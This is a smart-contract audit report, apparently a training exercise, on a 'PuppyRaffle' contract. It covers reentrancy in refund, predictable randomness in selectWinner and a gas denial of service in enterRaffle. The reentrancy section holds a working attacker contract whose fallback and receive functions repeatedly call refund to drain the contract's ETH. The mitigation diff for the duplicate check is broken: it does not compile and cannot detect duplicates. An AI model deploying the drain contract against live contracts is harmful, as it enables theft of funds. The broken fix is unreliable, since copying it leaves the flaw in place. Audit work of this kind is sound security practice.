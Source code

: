 ### [H-1] Reentrancy Attack found in `PuppleRaffle::refund`, allowing attacker to steal the contract balance

**Description** 

The `PuppleRaffle::refund` function is vulnerable to reentrancy due to its current design, potentially allowing an attacker to exploit the contract's state before executing the necessary state changes. in the `PuppleRaffle::refund` function, we know that the function doing external call and then change the statement of contract.

```javascript
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>  payable(msg.sender).sendValue(entranceFee);

@>  players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

A player who has entered the raffle could have fallback/receive function to exploit the contract after player doing. Fallback/receive will execute recursively before state of the contract change and automatically steal all of ether.

**Impact**

In the worst-case scenario, an attacker could drain the entire ETH balance of the contract if successful, leading to a loss of all funds held by the `PuppleRaffle` contract.

**Vulnerability Explanation**

The refund function allows a player to withdraw their entrance fee (`entranceFee`) by sending ETH back to `msg.sender`. However, this function does not follow the Checks-Effects-Interactions (CEI) pattern, which is crucial in preventing reentrancy attacks. After sending ETH (`sendValue`), the function changes the contract state (`players[playerIndex] = address(0);`). This sequence of operations allows an attacker to recursively call back into the contract before the state is updated, potentially stealing more ETH than they are entitled to.

**Proof of Concepts**

<details>

<summary> Code </summary>

```javascript

Contract PuppyRaffleTest is Test {
    ...
    modifier playersEntered() {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
        _;
    }

    function test_reentrancyRefund() public playersEntered {
        AttackerReentrancy attackerContract = new AttackerReentrancy(puppyRaffle);
        
        uint256 startingAttackContractBalance = address(attackerContract).balance;
        uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;

        console.log("starting attack contract balance : ", startingAttackContractBalance);
        console.log("starting puppy raffle balance : ", startingPuppyRaffleBalance);

        attackerContract.attack{value: entranceFee}();
        
        uint256 endingAttackContractBalance = address(attackerContract).balance;
        uint256 endingPuppyRaffleBalance = address(puppyRaffle).balance;

        console.log("ending attack contract balance : ", endingAttackContractBalance);
        console.log("ending puppy raffle balance : ", endingPuppyRaffleBalance);
    }

}

contract AttackerReentrancy {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee ;
    uint256 attackerIndex;

    constructor(PuppyRaffle puppyRuffle_){
        puppyRaffle = puppyRuffle_;
        entranceFee = puppyRaffle.entranceFee();
    } 

    function attack() external payable {
        address[] memory addressContract = new address[](1);
        addressContract[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(addressContract);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if(address(puppyRaffle).balance > 0){
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable{
        _stealMoney();
    }

    receive() external payable{
        _stealMoney();
    }
}

```

</details>

**Recommended mitigation**

To avoid this problem, there are many ways such as using CEI pattern, using openzeppelin contract `ReentrancyGuard` as well, but i just show you how to implement CEI pattern for function `PuppleRaffle::refund`.

Before : 

```javascript
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

    payable(msg.sender).sendValue(entranceFee);
    
    players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

After : 

```javascript
function refund(uint256 playerIndex) public {
    // Check
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

    // Effect
    players[playerIndex] = address(0);

    // Interact
    payable(msg.sender).sendValue(entranceFee);    
    emit RaffleRefunded(playerAddress);
}
```


### [H-2] Weak randomness in `PuppyRaffle::selectWinner` allows anyone to set up become winner

**Description** 

There are codes that associate with the problem in `PuppyRaffle::selectWinner`.

```javascript
function selectWinner() external {
    uint256 winnerIndex =
        uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
}
```

Hashing the `msg.sender`, `block.timestamp`, and `block.difficulty` together created a final number that easily to predict. A number which can be predicted is not good enough for random number generation. Malicious users can manipulate this number to choose the winner of the raffle.

**Impact**

Any users can choose the winner of raffle, winning the money and selecting the rarest puppy, essentially making it such that all puppies have th same rarity, since you can choose the puppy

**Proof of Concepts**

There are a few attack vectors here.
1. Validators can know ahead of time the block.timestamp and block.difficulty and use that knowledge to predict when / how to participate. See the solidity blog on prevrando [here](https://soliditydeveloper.com/prevrandao). block.difficulty was recently replaced with prevrandao.
2. Users can manipulate the `msg.sender` value to result in their index being the winner.

**Recommended mitigation** 

Consider using an oracle for your randomness like [Chainlink VRF](https://docs.chain.link/vrf/v2/introduction).

### [M-1] Looping through the players array to check for duplicate in `PuppleRuffle::enterRaffle` could potentially lead to Denial of Service (DoS) attack, increasing gas cost in the future

**Description**

The `PuppleRuffle::enterRaffle` function includes a duplicate checking mechanism that loops through the `players` array. As the array lengthens, the increasing number of iterations required for duplicate checks can result in higher gas costs. Consequently, `players` who enter earlier may incur lower gas costs compared to those who enter later

**Impact**

The impact is two-fold.
1. The gas cost for raffle entrants will greatly increase as more players enter the raffle
2. Front running opportunities are created for malicious user to increase gas cost of other user, so their transaction fails. 

**Proof of Concepts**

If we have 2 sets of scenario for entrance the ruffle, first set contain 100 player as well as second set. 
- First scenario : 6252041
- Second scenario : 18068131

This due to the for loop in the `PuppleRuffle::enterRaffle` function : 

``` javascript
for (uint256 i = 0; i < players.length - 1; i++) {
          for (uint256 j = i + 1; j < players.length; j++) {
              require(players[i] != players[j], "PuppyRaffle: Duplicate player");
          }
      }
```

<details>

<summary> Proof of code </summary>

Place following test into `PuppleRuffleTest.t.sol`

```javascript
function test_denialOfServices() public {
      uint256 playersNum = 100;
      address[] memory playersAddress = new address[](playersNum);
      for(uint256 i; i<playersNum; i++){
          playersAddress[i] = address(i);
      }
      
      vm.txGasPrice(1);
      uint256 gasStart = gasleft();
      puppyRaffle.enterRaffle{value: entranceFee * playersAddress.length}(playersAddress);
      uint256 gasEnd = gasleft();

      uint256 gasUsedFirst = ((gasStart - gasEnd) * tx.gasprice);

      uint256 playersNumTwo = 100;
      address[] memory playersAddressTwo = new address[](playersNumTwo);
      for(uint256 i; i<playersNumTwo; i++){
          playersAddressTwo[i] = address(i + playersNumTwo);
      }
      
      vm.txGasPrice(1);
      uint256 gasStartTwo = gasleft();
      puppyRaffle.enterRaffle{value: entranceFee * playersAddressTwo.length}(playersAddressTwo);
      uint256 gasEndTwo = gasleft();
      uint256 gasUsedSecond = ((gasStartTwo - gasEndTwo) * tx.gasprice);
      
      console.log("gas used first 100 players ", gasUsedFirst);
      console.log("gas used second 100 players ", gasUsedSecond);

      assert(gasUsedFirst < gasUsedSecond);
  }

```

</details>


**Recommended mitigation**

There are a few recommendations.

1. consider allowing duplicates. Users can make a new wallet addresess anyways. so a duplicate checking doesn't prevent the same person from entering raffle multiple times. 
2. Consider using a mapping to check for duplicates. This allow constant time lookup of whether a user has already entered. 
```diff
+   mappings(address => bool) playersMappings;

    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
+           playersMappings[newPlayers[i]] = true;
        }

-       for (uint256 i = 0; i < players.length - 1; i++) {
-           for (uint256 j = i + 1; j < players.length; j++) {
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-           }
-       }
+       for (uint256 i = 0; i < players.length; i++){
+           require(playerMappings[i] == true, "Duplicate players");
+       }
        emit RaffleEnter(newPlayers); 
    }
```
